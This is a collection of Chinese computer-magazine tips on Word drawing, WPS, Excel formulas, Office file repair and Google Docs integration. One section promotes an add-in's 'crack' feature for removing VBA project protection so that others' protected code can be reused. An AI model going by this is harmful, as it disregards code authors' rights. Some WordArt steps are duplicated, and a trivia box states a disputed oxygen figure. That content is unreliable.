- 5. 第5步：选中一个圆弧，右击，选择“设置自选图形格式”弹出对话框，在“线条”下选择“无线条颜色”，在“填充”下选择“填充效果”。最后，选择“图案”，指定一种斜线效果就行了——斜线部分就是这样“画”出来的。
- 6. 第6步：与第3步类似地拖动黄色控制柄直到两圆弧的半径相等。
- 7. 第7步：按住键盘上的“Ctrl+方向键”对图形进行微移，直到它们靠在一起，并适当将圆弧缩小一些。

### 用艺术字绘制刻度盘

这个是来物理题中用到的刻度盘，效果如图3所示，要求刻度均匀、对位准确，一般方法很难制作出来，后来用艺术字很快地解决了。


- 1. 第1步：单击“插入→图片→艺术字”，选择第一种艺术字后，打开编辑艺术字窗口。将输入法切换到英文状态，按住Shift键的同时按“\”键（该键的下方是“\”，上方是“|”），输入“|”，共输入31个这样的字符（见图4-1）。
- 2. 第2步：单击“视图→工具栏→艺术字”，打开艺术字工具栏。选中刚才输入的艺术字后，单击“艺术字形状”工具，选择其中的“细上弯弧”（见图4-2）。注意，艺术字上有一个黄色的控制柄，适当拖动，使其更像圆弧形的刻度。
- 3. 第3步：将刻度（其实是艺术字）复制一份出来，这下就共有两份了（见图4-3）。
- 4. 第4步：选中一份艺术字，右击，选择“编辑艺术字”，可观察到前面输入的31根竖线。选中第2根，用空格替换。只保留1、6、11、16、21、26、31的竖线——注意精确。“确定”后返回Word。接着，右击用空格替换过部分竖线字符的艺术字，选择“设置艺术字格式”，将艺术字的颜色和线条都设置为黑色，竖线即可变得粗一点（见图4-4）。
- 5. 第5步：将用空格替换竖线后的艺术字复制一份出来，此时共有7根竖线。将这7根竖线分别用“0、空格、1、空格、2、空格、3”替换（见图4-5）。



如果输入艺术字时字号设置得太大，字符可能是空心的。右击选择“设置艺术字格式”，将边线设置为无色，将填充色设置为黑色，这样艺术字的笔画会比较纤细。

- 1. 第2步：单击“视图→工具栏→艺术字”，打开艺术字工具栏。选中刚才输入的艺术字后，单击“艺术字形状”工具，选择其中的“细上弯弧”（见图4-2）。注意，艺术字上有一个黄色的控制柄，适当拖动，使其更像圆弧形的刻度。
- 2. 第3步：将刻度（其实是艺术字）复制一份出来，这下就共有两份了（见图4-3）。
- 3. 第4步：选中一份艺术字，右击，选择“编辑艺术字”，可观察到前面输入的31根竖线。选中第2根，用空格替换。只保留1、6、11、16、21、26、31的竖线——注意精确。“确定”后返回Word。接着，右击用空格替换过部分竖线字符的艺术字，选择“设置艺术字格式”，将艺术字的颜色和线条都设置为黑色，竖线即可变得粗一点（见图4-4）。
- 4. 第5步：将用空格替换竖线后的艺术字复制一份出来，此时共有7根竖线。将这7根竖线分别用“0、空格、1、空格、2、空格、3”替换（见图4-5）。

### 旋转出来的精彩

用Word做物理题图，经常遇见某面、线间夹角要多少度，这些可用旋转来完成。下面以绘制五角星（见图5）为例，来讲解面、线的旋转方法。

- 1. 第1步：画三根竖直的直线。右击其中一根，选择“设置自选图形格式”，在“大小”选项卡下设置其旋转角度为18度。将另一根旋转36度（这些度数是根据五角星的特点确定出来的）。然后，将三根直线组合起来。
- 2. 第2步：单击“自选图形→线条→任意多边形”，在图5-2中A点单击一下，接着，按住鼠标左键分别移动到B点、C点单击一下，然后回到A点双击。一个封闭的三角形就画好了。
- 3. 第3步：删除三角外面的三根直线，将内部小三角形填充为红色，边线也设置为红色。
- 4. 第4步：将红色小三角形复制4份出来，分别旋转72、144、216、288度。注意，度数一定要精确。
- 5. 第5步：调整5个小三角形的位置，再将它们组合起来。要注意的是，组合时，请注意中心处，既要靠在一起又不能重复。此时，可“Ctrl+方向键”来微移对象，而且，最好勾选“对象与其它对象对齐”。
- 6. 第6步：将前面绘制并组合后的5个小三角形复制一份。右击复件，选择“组合→取消组合”，将它们的颜色和边线都设置为黄色，并将它们再次组合起来。然后将组合后的多个黄色小三角形水平翻转一下。
- 7. 第7步：调整红色三角形和黄色三角形的位置后组合起来。为更加逼真，还可为五星设置一个军绿色的背景。

> > 小提示：为使内外两三角形的对应边都平行，请右击内部的三角形，选择“编辑顶点”，此时，三角形三个顶点上都会出现控制点，拖动可很方便地改变三角形的形状，使之更加逼真。拖动顶点时，可能会出现靠边不准确的情形。这时单击绘图工具栏中的“绘图→绘图网格”，从打开的设置对话框中清除对“对象与网格对齐”和“对象与其他对象对齐”的勾选，这样就很容易定位了。要注意的是，如果确实需要将两个对象对齐，可重新勾选“对象与其他对象对齐”，组合对象时尤其需要这样办。


### 更多的技巧

### 标注技巧

一般都是用文本框来充当，可是文本框无法旋转，缩小后，文字可能显示不全。如何解决这些问题呢？简单地，可用公式编辑器来充当标注，标注就是透明（不会盖住其他图形）的，可放大缩小，只是不能旋转。如果用艺术字，那就可透明、缩放、旋转了。

### 链接外部软件编辑

（文/刘惠 康）

## 有选择删除Word最近文档记录

Word提供了一个“最近使用的文档”列表,该列表记录着你最近使用过的文档。使用此列表上的链接,你可以快速访问这些文档。虽然你可关闭“最近使用的文档”列表,但如果你想有选择地删除某一个文档,该怎么办呢?

## Word 2003巧用快捷键

在Word 2003中,按下Ctrl+Alt+-组合键,鼠标指针将变成粗减号(按Esc键可关闭),单击“文件”菜单,然后单击需要删除的文档名称,即可将其从“最近使用的文档”列表删除。

## Word 2007注册表帮忙

在Word2007中, Ctrl+Alt+-组合键就不起作用了。不过你可以请“注册表编辑器”相助,删除不想其出现在“最近使用的文档”列表中的文档。具体操作如下:打开“注册表编辑器”,打开[HKEY_CURRENT_USER\Software\Microsoft\Office\12.0\Word\FileMRU]项,然后在右侧窗格中,删除已打开文档所在的主键即可。虽然Word没有提供直接地用以删除“最近使用的文档”列表中某个文档的方法,但我们却借助快捷键或注册表间接地完成了该项任务。说明只要开动脑筋,就能够让电脑真正为我所用。

(贾培武)

## Excel的超级工具箱

Excel自从推出后,使用的人越来越多,大家对它本身提供的功能越来越不满足,但微软只赋予了它一些基本功能,于是高手们就开发了各种各样的高档技巧,来弥补软件的不足。

“Excel必备工具箱”(以下简称工具箱)是这些增强工具中值得使用的一款。这款免费 Excel软件可以让你在完成很多工作时省下很多力气。

从http://blog.sina.com.cn/ahzll下载软件,并安装好,然后进入Excel,你就会看到“加载项”下的新选项。

## 实用功能揭秘一：合并多个相似表格

这个功能一直是小编经常要使用的。每个编辑在最后都会填写一个包含各种文章元素的表格,再手工合并。现在终于免去这个麻烦了:在“工具集锦”中点击“汇总→表格合并”,在弹出窗口中点击“来自于同一目录下的多个文档”,然后选择好文档,就可以等待合并好的文件了。

## 小提示：

点击“工具箱→综合设置”项,可以修改是否在鼠标右键出现“工具集锦”项等项目。

## 实用功能揭秘二：别人代码拿来就用

现在很多人在网上共享一些VBA程序时,都会加密,连修改代码的机会都不给。有了工具箱,这问题就没有了:在“工具集锦”窗口中点击“破解”标签下的“VBA工程保护”按钮即可。

## 实用功能揭秘三：斜线、分栏, Word行的Excel照样成

在没有安装工具箱前,你要给表格添加斜线表头,那是相当麻烦的事,要是想分个栏,那只能去Word下去完成这个任务了。现在可就简单了,只要在“工具集锦”窗口下点击“处理”标签下的“分栏”或“斜线表头”输入好参数就可以自成了。当然软件的功能可不只有这些,看着那些超多的选项、按钮,你是不是也有安装的冲动?

## WPS 2009，化零为整大法

从网上查找收集各种文字资料是大家常做的事。而我们需要的文字资料往往是分散在不同的网站、网页中,有时一篇文章就要分成好几页显示。如何才能轻松地把这些文字内容采集汇总到同一个文档中呢?在WPS Office 2009个人版的WPS文字中至少有两种方法可以快速帮你化零为整。

## 用多重剪贴板快速采集

通常大家多是通过直接复制粘贴的方式来采集网页上的文本。这样就不必逐页打开、选中、复制,然后切换到WPS文字,再粘贴。如此不断重复,操作当然很麻烦。其实在WPS Office 2009个人版中,用多重剪贴板这个新功能正好可以解决这个难题。

打开WPS文字2009,依次选择菜单“编辑→多重剪贴板”,启动多重剪贴板。切换到浏览器窗口,找到所需内容时,选中所需内容进行复制,复制的内容就会被保存到WPS的多重剪贴板中。由于多重剪贴板可以保存24条项目,所以不必马上复制,可以继续复制其他内容。等所需内容全部复制好后,切换到WPS文字窗口,单击多重剪贴板窗格中的“全部粘贴”按钮,即可把所有复制的内容按原先复制的顺序全部粘贴到WPS中了。很简单吧?

## 多文件快速拼接

我们还经常用到另一种方法收集网络文本,那就是使用下载软件批量下载网页上所链接的文章。这样下载得到的内容通常是每一页就保存为一个文档。要把这许多个文件拼接成一篇完整的文章,使用上面的方法显然不够简单。在WPS文字2009中还有一个更简单的方法可以快速拼接多个文件。

打开WPS文字2009,新建一个空文档。单击菜单栏的“插入→文件”,在弹出的“插入文件”窗口中打开合并文件所在的文件夹,按住Ctrl键逐一选中需要拼接的文件,选中的文件名会按顺序出现在“文件名”框中。单击“打开”按钮,选中的所有文档已经按顺序合并到当前文档中了。

## 小提示：

合并后文档的顺序与单击选中文档的顺序相同。此外,在“插入文件”窗口的“文件类型”中选择“所有文件(*.*)”,还可以选择多个不同类型的文件进行拼接。 (文/陈桂鑫)

## 清晰图了，示意图轻松做

一般办公室文员,要制作出专业的示意图比较困难。其实只要根据任务,选对了工具,示意图制作也是非常简便的。这不,女友薇薇在我的指点下,用3个工具,轻松完成了3个任务。大家包括领导都掉眼珠子啦!

## 任务一：制作流程图

单位搞了一个培训,还让培训的人写论文,并作为内部考评的依据和工资挂钩。领导让薇薇制作一个论文考评流程,提供给大家。

- 第一步: 打开Word 2007, 切换到“插入”标签, 单击“形状”选择“新建绘图画板”。此时会出现一个虚线框, 后面的作图就在这里完成。
- 第二步: 单击“形状”按钮, 使用“流程图”中的各种图形工具(矩形、圆、圆角矩形等), 要绘制某个流程的轮廓(注意: 不同的流程定义不同的轮廓), 单击工具在绘图画板上拖动即可, 再调节位置和尺寸。
- 第三步: 单击“形状”按钮, 使用“线条”里面的“箭头”和“肘形箭头连接符”两种工具, 将绘制图形连接起来。
- 第四步: 右击图形框选择“添加文字”, 可以在图形里面输入说明文字。
- 第五步: 最后对图形进行美化。选中图形或连接符, 单击“格式”标签, 对图形或连接符进行外观修饰。然后切换到“插入”标签, 单击“艺术字”添加标题。这样就得到了一张精美的毕业论文流程图。

## 小提示：

EDraw Mind Map是一款国产免费的图形制作工具,体积小巧,可以制作的图形多样,输出类型丰富,可作为矢量图插入Word。下载网址http://dl.pconline.com.cn/html_2/1/111/id=47651&pn=0.html。

## 任务二：制作单位平面示意图

单位要开一个座谈会,需要邀请嘉宾并发放请柬。请柬上需要标示出单位的位置示意图。领导竟然将这么难的一个任务交给薇薇!

如果在以前,确实是一个很难的任务,或者要安装比较专业的软件如微软Visio绘图工具,或者你有很好的美术功底。不过现在简单了,有一款免费工具——EDraw Mind Map,里面内置的地图模块可快速制作出单位平面图。

- 第一步: 打开EDraw, 单击左侧的“实例”按钮, 打开内置的模板。双击“地图→方向图”, 打开一个建筑物平面图。在这里可以移动、复制平面图上的物件, 调节物件的位置,跟实际情况一致。
- 第二步: 单击“库”按钮可以看到内置的各种背景、流程图形状等,在下方的工具栏上也有基本的图形工具及属性设置工具可供选择。如果要添加文本,可选择菜单“插入→文本”即可输入文字。非常简洁方便。

## 任务三：制作注解图

领导让薇薇将电子对账的步骤做成一个手册,发放给大家,特别是让那些对电脑不熟悉的老同志按手册操作。

手册很好做,在电脑上将各个步骤的屏幕显示抓个图出来,然后在旁边做个说明。可是既然是给老同志看,最好能在图中做出注解,先按哪个按钮,后点哪个菜单,标示得清清楚楚才好。虽然画图软件可以做,不过很繁琐。这里推荐一个一条龙软件——SnagIt(下载地址http://www.skycn.com/soft/2291.html)。它不但是一个优秀的抓图工具,还内置了编辑器功能,提供了各种注解素材,通过点击拖动即可实现。非常方便。CFan杂志、普及版杂志,本文的一些图片标注都是通过该软件制作的,简单且效果不凡。也推荐给CFan撰稿者使用。 (江苏/周建峰)

## 另辟蹊径，快速批量打印成绩单

每到期末的时候，都是老师们繁忙的时候，不仅要组织考试，还要阅卷，进行成绩分析，忙得焦头烂额，其实利用常用办公工具，就可以让繁杂工作轻松起来，比如最常见的打印成绩单工作，利用Excel的函数功能，就可以瞬间实现成绩的排名和成绩单的打印工作，下面就以我们中学2009年上半年期末考试成绩单打印为例，来介绍如何利用Excel的各种功能来快速完成这项工作。

### 利用名称、公式，对学生成绩分析排名

虽然每个学校的学生情况各不相同，成绩表不但要记载各科成绩情况，往往还需要计算每个学生的总成绩、单科成绩在本班、本年级的排名情况，这是在打印成绩单之前必须做的工作。

**第一步：定义名称**
打开“考试统计表.xls”中的“总表”工作表，执行“插入→名称→定义”命令，在弹出的“定义名称”对话框中设置如下定义名称：
“总分”的引用位置为“=OFFSET(总表!$M$3,0,0,COUNTA(总表!$C:$C)-1,1)”；
“总表”为“=OFFSET(总表!$B$3,,COUNTA(总表!$B$3:$N$113),13)”。
设置完毕后，关闭对话框。

**小提示：**
在这里都使用了两个函数OFFSET、COUNTA，其中OFFSET函数的作用是以指定的引用为参照系，通过给定偏移量得到新的引用。COUNTA是用于计算单元格区域中非空白单元格的，如OFFSET(总表!$B$3,,COUNTA(总表!$B$3:$N$113),13)就是从“总表”B3单元格开始，高度为COUNTA(总表!$B$3:$N$113)，宽度为13的区域。

**第二步：总分计算与排名**
在“总表”工作表中“总分”下面的M3单元格中输入公式“=SUM(D3:L3)”，“本年级排名”下面的N3单元格输入数组公式“=RANK(M3,总分)”。

这两个公式分别用来计算当前学生的总分以及整个年级的排名情况，然后将这两个公式复制到下面的对应单元格区域中，即可马上得到相应的各个学生总分以及排名情况。是不是很省步骤啊？

**小提示：**
此处公式中的RANK是返回一个数字在数字列表中的排位，从而计算出在本年级的排名，如果需要计算在本班次的排名，可以采用前面的方法将班级予以定义名称，如“班级”，然后使用数组公式{=SUM((班级=C3)*(总分>M3))+1}即可。

### 妙用函数，编制成绩单

成绩单实际上就是从成绩表中，将每个学生的考试成绩数据单独提取出来予以打印，利用Excel的函数功能，再结合设计的成绩单模板就可以轻松实现，具体操作如下：

**第一步：**
新建一个工作表，将其命名为“成绩单”，在此工作表的A1:M1单元格中输入第一份成绩单的标题，然后在A4:M5单元格中，根据前面成绩表的格式输入成绩表格，并在G6、J7单元格中分别输入家长签名以及学校名称等信息，采用同样的方法，根据每页纸打印通知单的数量，在下面单元格中将以上内容予以复制，比如每页纸打印4份。

**第二步：**
由于学生较多，需要打印大量成绩单，因此须设计一个能够控制打印页数的辅助单元格，如这个工作的O2单元格，然后使用“插入→批注”命令，为此单元格设置提示文字，如“请在此输入所需要打印通知单数！”。

**小提示：**
此处使用了MOD、ROW、ROUNDUP等函数，其作用为从第5行开始，每隔9行生成1、2、3、4，如果需要隔10行，只需要调整函数为=MOD(ROW(),10)*$O$2-5+ROUNDUP(ROW()/10,0)即可。

在编制辅助单元格基础上，还需要设计辅助列，以便于以后打印成绩单的工作，由于需要在1页纸上打印4份成绩单，可以在N5单元格中输入公式“=MOD(ROW(),9)*$O$2-5+ROUNDUP(ROW()/9,0)”，并在同列的N14、N23、N32单元格中复制此公式。

#### 第三步：

在第一份成绩单的“姓名”下面的A5单元格中输入公式“=IF(ROWS(总表)<$N5,"",INDEX(表,MOD(ROW(),9)*$O$2-5+ROUNDUP(ROW()/9,0),COLUMN()))”，并将此公式复制到成绩单的其余B5:M5单元格中，然后将此公式复制到下面的三份成绩单中。

**小提示：**
此处公式使用了IF、ROWS、INDEX等函数，其作用是如果显示的记录数目小于N5数值，则从引用区域中逐行显示记录，否则显示空值。
这样当我们在O2单元格中输入“1”时，就会显示第1~4份成绩单，在每个成绩单中都会自动显示相应的学生姓名、班级、成绩以及排名情况，而输入“2”时，则会显示第5~8份成绩单。

### 设置格式，快速打印成绩单

当成绩单设计完毕后，还需要设置打印格式，执行“文件→页面设置”命令，在弹出的页面设置对话框中，从“页面”选项卡中，将“方向”设置为“纵向”，“缩放”中的“调整为”设置为“1页宽”、“1页高”，最后确定，这时就可以打印出非常标准美观的成绩通知单了。

**小提示：**
通过以上操作，我们不仅可以非常方便地打印成绩通知单，可以制作其他类似的单据、报表，如对账单、催款单、结算单等各种单据，只需要修改相关数据以及打印模板即可。本方法非常适合财务人员、销售管理人员使用。

(山东/宋云岭)

## 绿色环保：一纸打印

如果需要打印的Word文档稍稍超过了一页，占用两张纸比较浪费，调整文字的大小又非常不便，容易改变原文档的标题、段落的设置，如何快速调整到一页打印？借助“打印预览”可以快速达到我们的要求。

首先，执行“文件→打印预览”菜单项，或者直接单击工具栏中的打印预览按钮，进入预览模式，然后单击工具栏中的“缩小字体填充”按钮，即可快速地将文档调整到一页。

通过这种方法调整时，文档中的所有文字都会按照前后文档的比例跟着缩小，而不会改变原来各种标题以及正文之间字体大小的比例结构，整体效果还是和原来一样。

(文/杯中水)

## 世界上哪个地方产生的氧气最多？

亚马逊雨林所产出的氧气占全球氧气的20%。亚马逊河入大西洋，水势凶猛，甚至在河入海口以外100英里，人们依然可以从大海里汲取淡水。亚马逊河的水流量是排名紧随其后八大河流量的总和，亦是美国所有河流流量的三倍之多。



## 多头并举，巧妙修复损坏的Office文档

Office文档经常会遇见不能够打开、显示乱码等，是不是非常令人烦恼？下面就以Excel文档为例，来看看这些解决方法！

### 受损文件自动疗伤

大多数的受损文件，是由于突然断电、不正常关机以及Excel程序错误而引起的，而Excel具有自动恢复功能（即Excel每隔一段时间会自动保存文件），可以修复很多受损文件。

Excel默认未启用此功能，执行“工具→选项→保存”标签，将“禁用自动恢复”复选框取消，并输入间隔时间，如2分钟，确定即可，再次启动Excel时，会在右侧显示“文档恢复”窗口，里面列出已自动恢复的所有受损文件，需要恢复某个文件，单击其右侧下拉按钮，选择“打开”即可，Word中也有同样的自动恢复功能，设置方法相同。

### 另辟蹊径 自动恢复文件

如果“文档恢复”窗口没有显示，可直接打开Excel暂存的自动恢复文件夹，找到自动保存的文件打开，暂存文件位置可通过Excel的“选项→保存→自动恢复文件保存位置”中查到，如C:\Documents and Settings\Administrator\Application Data\Microsoft\Excel\，然后复制到文件夹地址栏中打开此文件夹选择即可。

**小提示：**
这个文件夹中的文件名可能与实际文件名不符，而且很零乱，如Excel11.xlb、复件 ~ar3B7F.xls，这时候可以通过查看文件的修改日期来判断是否是自己需要的恢复文件。

### Excel 直接修复受损文档

Excel还自带有修复工具，在Excel 2003中，执行“文件→打开”命令，选择要修复的受损文件，然后单击右下角的“打开”按钮右侧的下拉命令按钮，从弹出的命令列表中选择“打开并修复”命令，在随之弹出的对话框中，单击“修复”按钮即可。

**小提示：**
如果文件受损很严重，使用修复工具无法恢复，只能够单击“提取数据”按钮，从受损的文件中尽量恢复较多的数据或者公式。另外，Word中同样具有恢复工具，其操作方法与Excel相似。

### 借助修复工具来恢复文档

在其他办法无效的情况下，可使用专业文件修复工具，如Recovery for Excel (http://down.tech.sina.com.cn/content/15451.html)，将其下载安装后，单击工具栏上的Recover(恢复)按钮，在弹出的对话框中选择受损的Excel文件，然后单击Recover按钮即可进行自动恢复操作了。

**小提示：**
如要修复Word文件，可使用Recovery for Word (http://down.tech.sina.com.cn/content/9215.html)。

(文/Xj)

## 工作变轻松 让生产销售统计表更智能

做统计财务工作的朋友都知道，平常与各种统计表打交道，如销售、生产、库存等各种统计报表，每日（或每月）的生产销售都需要进行汇总，单纯的手工计算太麻烦，虽然现在利用Excel能够节省不少时间，但是往往还不能够达到自动的效果。

其实利用Excel的各种函数，结合一些功能，加上合理设置工作表，就能够实现自动汇总、自动生成领导需要的报表，并可以避免一些差错的出现，从而可以达到事半功倍的效果。我们单位的统计员，就是因为采用此类诸多自动化的措施，才实现了工作加倍而人员不增的效果的。

下面就以2009年度生产销售统计日报表为例，来看看如何通过Excel，来提高我们的工作效率！

### 编辑产品资料表，为数据统计奠定坚实基础

第一步:作为一份生产销售统计日报表，必须包括产品的编号、名称等基本资料。启动Excel 2003，新建一个工作簿，将其命名为“2009年度生产销售日报表”，并新建一个工作表命名为“基础资料”。在这个工作表的A1-E1单元格区域内输入产品编码、产品名称、规格、单位、生产车间等列名，然后在下面的相应单元格区域输入相关产品基本信息。

第二步:为了能够在以后的数据处理中，便于调用产品编号信息，执行“插入→名称→定义”命令，在弹出的对话框中，输入定义名称为“产品编号”，引用位置为“=OFFSET(基础资料!$A$2,0,0,COUNTA(基础资料!$A:$A)-1)”.

第三步:同时进一步便于调用日期，在此工作表的K1:K3区域中，输入统计年份，如2009年~2011年，并执行“插入→名称→定义”命令，将此区域定义为“年份”。采用类似的方法，在L1:L12区域中输入月份，并定义为“月份”；M1:M31区域中输入日期，定义为“日”。

### 巧用函数，快速输入日常生产销售数据

在前面编辑的基础资料表上，就可以进行日常数据表的设计了。新建一个工作表，将其命名为“2009年日常数据输入”，在此工作表中，设置步骤如下。

第一步:在C1单元格中输入文字“请选择年月日：”，然后单击其后的D1单元格，执行“数据→有效性”命令，在弹出的“数据有效性”对话框中，从“设置”选项卡的“有效性条件”下面的“允许”列表框中选择“序列”选项，在“来源”中输入公式“=年份”，然后选中“提供下拉箭头”复选项，单击“确定”按钮。

第二步:采用相同方法，将E1、F1单元格的设置为“=月份”、“=日”。在A1单元格中输入文字“输入单据日期：”，B1单元格中输入公式“=D1&E1&F1”，这样当需要选择输入日期时，只需要单击C1、E1、F1单元格右侧的下拉按钮，然后用下拉菜单选择相应的年月日即可，在B1单元格中就会自动显示当前输入日期，如“2009年7月9日”。

第三步:此外，由于在以后的日报自动汇总过程中需要使用此表的日期，因此必须新添加3个定义。分别为：

“输入日期”，其引用位置为“=OFFSET('2009年日常数据输入'!$B$3,0,0,COUNTA('2009年日常数据输入'!$B:$B)-2)”；

“日报时间”，其引用位置为“=OFFSET(基础资料!$H$1,0,MATCH('end',基础资料!$H:$H,0)-1)”；

“cc”，其引用位置为“=OFFSET('2009年日常数据输入'!$C$3,0,0,COUNTA('2009年日常数据输入'!$C:$C)-2)”。

### 精心设计，实现自动汇总

日常统计工作除了输入基本数据外，进行每日汇总是每天必做工作之一，比如需要统计每月1日至当天的生产销售数据，这些操作都可以通过设置，实现自动汇总。

新建一个工作表，将其命名为“日报表”，在此表的F1单元格中输入标题“产品日报表”，将其前面的D1单元格的数据有效性设置为“=日报时间”。在B3:M3区域中输入编号、名称、本日产出、本日产出累计等列名，然后在其下面的单元格中依次输入公式。

编号下面的B4中输入：“=IF(SUM(1/COUNTIF(cc,cc))>=ROW(C1),INDEX(cc,SMALL(IF(ROW(cc)-2=MATCH(cc,cc,0),ROW(cc)-2),ROW(C1)),””)”

名称下面的C4输入：“=IF(ISERROR(VLOOKUP(B4,基础资料!$A$1:$D$1000,2,FALSE)),””,VLOOKUP(B4,基础资料!$A$1:$D$1000,2,FALSE))”

规格下面的D4输入：“=IF(ISERROR(VLOOKUP(B4,基础资料!$A$1:$D$1000,3,FALSE)),””,VLOOKUP(B4,基础资料!$A$1:$D$1000,3,FALSE))”

单位下面的E4输入：“=IF(ISERROR(VLOOKUP(B4,基础资料!$A$1:$D$1000,4,FALSE)),””,VLOOKUP(B4,基础资料!$A$1:$D$1000,4,FALSE))”

本日产出下面的F4输入：“=SUM(--((‘2009年日常数据输入’!$B$3:$B$100=$D$1)*(B4=‘2009年日常数据输入’!$C$3:$C$100)*‘2009年日常数据输入’!$G$3:$G$100))”

在本日产出累计下面的G4输入：“=SUM(--((‘2009年日常数据输入’!$B$3:$B$100>=YEAR($D$1)&”年”&MONTH($D$1)&”月1日”)*(B4=‘2009年日常数据输入’!$C$3:$C$100)*‘2009年日常数据输入’!$G$3:$G$100))”

后面的几个单元格依次类推即可。

小提示: 此处的“=SUM(--(‘2009年日常数据输入’!$B$3:$B$100>=...)”作用是利用数组公式，自动汇总从本月1日到当天的每日产出累加数，此处的{}为数组符号，不能够直接输入，而是在输入公式后，同时按Ctrl+Shift+Enter组合键，就会自动添加，而且在使用过程中，如果需要查看数组公式，不要在公式编辑栏中，单击鼠标，否则{}会取消，从而失去本来的作用。

以后，当需要统计每日的生产销售统计数据时，只需要单击D1单元格，即可弹出一个下拉列表，其中显示了可用的统计日期，从其中选择自己需要汇总日期，如2009年7月9日，即可在下面的日报表中显示当日的各种生产销售数据以及从7月1日到截止日（7月9日）的累加数据。

通过上面的操作，可以发现充分利用Excel公式以及一些功能，可以使生产销售统计工作更加智能，实际上以上操作不仅仅可以应用在生产销售统计工作中，还可以应用在资金管理、质量控制、人事管理等各个方面，而关键的是公式以及函数的应用以及延伸上。

有些朋友可能觉得函数比较繁琐枯燥，其实对于这些，可以通过Excel的帮助来了解其具体作用以及语法，而这些问题都可以通过单击公式编辑栏中的相应函数，即可显示相应解释。

(文/Xi)

## Office联姻Google文档，协作办公更轻松

随着技术的发展，网络协作办公越来越被广大用户所采用，协作办公的方法有多种，在Office中我们可以共享自己的工作区，也可以借助Google文档实现在线协作，如果能够将这两者结合起来，岂不更加方便，下面是实现的具体方法。

### 1. 用 Google 文档协作办公

打开https://docs.google.com网址，登录Google文件网站，单击“新建”按钮，创建一个新的“在线文档”、“演示文稿”或者“电子表格”，也可以单击“上传”按钮，上传一个已经编辑过的文件。如果需要共享某个文档，在文件列表中勾选文件名前面的复选框，然后单击“共享”按钮，打开“添加协作者或者查看者”对话框，再到文本框中输入协作者的邮箱地址（多个地址之间用英文逗号间隔），并根据需要将其设定为协作者或者查看者。然后输入主题和正文内容，单击“发送邀请”按钮，即可成功向对方邮箱中发送协作邀请。对方只需打开邮箱，单击正文中的链接即可打开共享的在线文档，进行编辑或者查看了。

### 2. 将 Google 文档整合到 Office 中

使用Google文档可以方便地在线协作办公，但我们使用最多的还是Office组件，并且使用Google文档时还要登录网站。如果能够将Google文档集成到Office组件中会更加方便。

从http://down.tech.sina.com.cn/page/44080.html下载“在线办公辅助 OffiSync”软件，并进行安装。安装成功后启动某个Office组件，就会发现多出了一个OffiSync菜单，单击菜单中的Open（打开）命令，即可成功打开Google文档。想要编辑哪个文档，在文件列表中将其选中，单击Open按钮打开编辑即可。

编辑完成后执行“OffiSync→Save”菜单命令，就会自动将修改的结果上传保存到源Google文档中。如果是在本地计算机中编辑的Office文档，保存时需要输入文件名。如果需要将本地的Office文档共享给其他人，保存后可以执行OffiSync→Collaborate（OffiSync→合作）菜单命令，打开分享对话框，在Email文本框中输入对方的邮箱地址，并设定好只读还是可以修改，发送邀请即可。

(山东/杯中水)# 统计必杀技：按不同年龄段统计员工数量

人力资源学家霍夫施塔特的“组织实践的文化相关性理论”提出，不同文化背景的员工在集体主义和个人主义、权利距离预期、风险规避、长期导向与短期导向等方面价值观不同，因此公司制定人力资源政策时，需要考虑员工年龄的深远影响。
你需要按照不同的年龄段统计员工的数量，如：20岁以下、21~30岁各多少人……并统计各部门分别有多少人（见图1）。

| 序号 | 姓名 | 性别 | 出生日期 | 部门 |
|---|---|---|---|---|
| 1 | 陆瑶 | 女 | 1973.5.25 | 销售部 |
| 2 | 邱晓波 | 男 | 1980.2.11 | 销售部 |
| 3 | 邵华 | 女 | 1968.3.30 | 网络部 |
| ... | ... | ... | ... | ... |

你可能会遇到的困惑：
① 如何将“出生日期”中的数据（如78.6.25），变成Excel可识别的日期形式呢？
② 如何计算每个人的年龄呢？
③ 如何计算不同年龄段员工的人数呢？
④ 如何按照部门计算员工的人数呢？

## 用“分列”更改日期格式

如果要将“出生日期”中的数据（如78.6.25）调整为Excel可识别的日期形式，可以利用“分列”的方式，即将数据分为年、月、日三部分，每部分各占一列，然后再将这三部分用“-”连接起来。因此本例应以小数点“.”作为分隔标志，即分隔符号。
第一步：在“出生日期”列的右面插入3个空白列
第二步：选中D2:D21单元格区域，打开“数据”选项卡，单击“数据工具”选项组中的“分列”按钮，打开“文本分列向导”对话框。
第三步：选中“分隔符号”单选按钮，然后单击“下一步”按钮，在“分隔符号”选项区域中选中“其他”复选框，并在其右侧的空白文本框中输入一个小数点“.”，然后去掉“分隔符号”选项区域中的其他所有选项
第四步：单击“下一步”按钮，打开“文本分列向导”的最后一步，在此使用默认设置。
第五步：单击“完成”按钮，即可将数据分成3列显示。
第六步：选中G2单元格，输入公式“=(IF(F2>0, D2&"-"&E2&"-"&F2, D2&"-"&E2))+0”，即可在G2单元格中显示“28666”，将该公式填充至G21单元格中。公式中的“+0”，是为了使文本型的数字转化为数值型的数字。
第七步：选中G2:G21单元格区域，打开“开始”选项卡，单击“剪贴板”选项组中的“复制”按钮，然后选中D2单元格，执行“剪贴板”选项组中的“粘贴→选择性粘贴”，打开“选择性粘贴”对话框。
第八步：在“粘贴”选项区域中选中“数值”单选按钮，“确定”后，即可将G2:G21单元格中的数值复制到D2:D21单元格中。
第九步：单击鼠标右键，从弹出的右键菜单中执行“设置单元格格式”命令，打开“设置单元格格式”对话框中的“数字”选项卡。在“分类”列表中选择“日期”，在“类型”列表中选择所需的日期格式。删除不需要的E、F、G列，完成日期格式的更改。

## DATEDIF 函数都能干什么？

DATEDIF函数用于计算两个日期之间的天数、月数或年数。属于隐藏函数，是为了沿袭Lotus 123的一个函数。
语法: DATEDIF(start_date,end_date,unit)
①Start_date 为一个日期，它代表时间段内的第一个日期或起始日期。日期有多种输入方法：带引号的文本串（例如“2001/1/30”）、系列数（例如，如果使用1900日期系统则36921代表2001年1月30日）或其他公式或函数的结果（例如DATEVALUE("2001/1/30")）。
②End_date 为一个日期，它代表时间段内的最后一个日期或结束日期。
③Unit 为所需信息的返回类型。

| Unit | 返回 |
|---|---|
| "Y" | 时间段中的整年数。 |
| "M" | 时间段中的整月数。 |
| "D" | 时间段中的天数。 |
| "MD" | start_date 与 end_date 日期中天数的差。忽略日期中的月和年。 |
| "YM" | start_date 与 end_date 日期中月数的差。忽略日期中的日和年。 |
| "YD" | start_date 与 end_date 日期中天数的差。忽略日期中的年。 |

### 示例:

- DATEDIF("2001/1/1","2003/1/1","Y") 等于2，即时间段中有两个整年。
- DATEDIF("2001/6/1","2002/8/15","D") 等于440，即在2001年6月1日和2002年8月15日之间有440天。
